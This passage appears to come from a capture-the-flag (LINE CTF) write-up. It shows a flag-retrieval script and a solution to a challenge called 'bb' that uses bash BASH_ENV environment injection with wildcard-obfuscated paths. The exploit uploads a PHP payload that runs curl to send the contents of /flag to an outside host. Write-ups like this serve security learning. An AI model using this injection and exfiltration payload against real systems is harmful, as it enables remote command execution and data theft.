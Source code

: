 ```python
def flag(token,server=SERVER):
    resp = requests.post(server+"/flag",headers={"X-Token":token})
    return resp

def main():
    register("114","514","http://192.168.222.11:11000")
    local_token = login("114","514","http://192.168.222.11:11000")
    resp = flag(local_token)
    print(resp.text)

main()

#{"status":true,"msg":"Hi 114, flag is LINECTF{country_roads_takes_me_home}"}
```


### bb

Follow this passage.

[https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html)

We may execute the command with command the filtering code in localhost.

![](https://i.imgur.com/4IO58HU.png)


And we should seek a binary in the docker that we may only use number and punctuation marks to access and invoke it.

/bin/php7.4 is the ideal solution. By the way, we may upload a PHP file at the same time and use php7.4 to execute it. Here is the exploit:

```python
import io

import requests

url = "http://34.84.151.109/"

while True:
    f = io.BytesIO(b'<?php system("curl http://101.**.**.**:9999/?a=`cat /flag`");?>' * 1024)
    response = requests.post(url, params={"env[BASH_ENV]": "$(/???/???7.4 //???/????????[0-9])"}, files={'file': ('glzjin.txt',f)})

    print(response.text)
```

## Reverse
### rolling

![](https://i.imgur.com/G28NfQG.png)
